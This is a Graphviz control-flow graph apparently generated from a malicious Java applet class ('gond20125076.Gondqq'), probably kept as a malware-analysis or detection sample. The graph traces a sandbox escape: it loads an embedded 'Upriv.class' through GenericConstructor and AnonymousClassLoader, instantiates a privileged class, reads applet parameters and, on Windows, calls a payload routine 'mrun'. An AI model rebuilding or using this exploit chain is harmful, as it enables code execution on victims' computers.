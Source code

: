 digraph "" {
    "r0 := @this: gond20125076.Gondqq"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: gond20125076.Gondqq"->"new java.io.ByteArrayOutputStream";
    "store.r r8"
    "new java.io.ByteArrayOutputStream"->"store.r r8";
    "load.r r8"
    "store.r r8"->"load.r r8";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r r8"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r29"
    "newarray"->"store.r r29";
    "load.r r0"
    "store.r r29"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"Upriv.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"Upriv.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"Upriv.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r1";
    "goto load.r r1"
    "store.r r1"->"goto load.r r1";
    "load.r r1"
    "goto load.r r1"->"load.r r1";
    "load.r r29"
    "load.r r1"->"load.r r29";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r29"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r9"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r9";
    "load.i r9"
    "store.i r9"->"load.i r9";
    "ifgt load.r r8"
    "load.i r9"->"ifgt load.r r8";
    "ifgt load.r r8"->"load.r r8";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r r8"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r r8";
    "new com.sun.org.glassfish.gmbal.util.GenericConstructor"
    "store.r r8"->"new com.sun.org.glassfish.gmbal.util.GenericConstructor";
    "dup1.r"
    "new com.sun.org.glassfish.gmbal.util.GenericConstructor"->"dup1.r";
    "push class \"Ljava/lang/Object;\""
    "dup1.r"->"push class \"Ljava/lang/Object;\"";
    "push \"sun.invoke.anon.AnonymousClassLoader\""
    "push class \"Ljava/lang/Object;\""->"push \"sun.invoke.anon.AnonymousClassLoader\"";
    "push 0"
    "push \"sun.invoke.anon.AnonymousClassLoader\""->"push 0";
    "push 0"->"newarray";
    "specialinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>"
    "newarray"->"specialinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>";
    "specialinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>"
    "newarray"->"virtualinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>";
    "virtualinvoke <com.sun.org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"loadClass\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"loadClass\"";
    "push 1"
    "push \"loadClass\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"arraywrite.r";
    "staticinvoke <com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>";
    "staticinvoke <com.sun.org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>"->"load.r r1";
    "load.r r1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r8";
    "load.r r8"->"arraywrite.r";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "arraywrite.r"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"load.r r0";
    "push \"bn\""
    "load.r r0"->"push \"bn\"";
    "virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>"
    "push \"bn\""->"virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "store.r r1"->"load.r r0";
    "push \"xiaomaolv\""
    "load.r r0"->"push \"xiaomaolv\"";
    "push \"xiaomaolv\""->"virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>"->"store.r r8";
    "store.r r8"->"load.r r0";
    "push \"si\""
    "load.r r0"->"push \"si\"";
    "push \"si\""->"virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>";
    "store.r r9"
    "virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>"->"store.r r9";
    "store.r r9"->"load.r r0";
    "push \"bs\""
    "load.r r0"->"push \"bs\"";
    "push \"bs\""->"virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <gond20125076.Gondqq: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "push \"os.name\""
    "store.r r0"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"11\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"11\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"11\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "push \"Windows\""
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push \"Windows\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"Windows\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"load.r r8";
    "load.r r8"->"load.r r1";
    "load.r r9"
    "load.r r1"->"load.r r9";
    "load.r r9"->"load.r r0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>"
    "load.r r0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>";
    "staticinvoke <gond20125076.Gondcc: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>"->"staticinvoke <gond20125076.Gondcc: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>";
    "staticinvoke <gond20125076.Gondcc: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <gond20125076.Gondcc: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>"->"store.r r0";
    "ifgt load.r r8"->"load.r r8";
    "load.r r8"->"load.r r29";
    "load.r r29"->"push 0";
    "push 0"->"load.i r9";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i r9"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
}
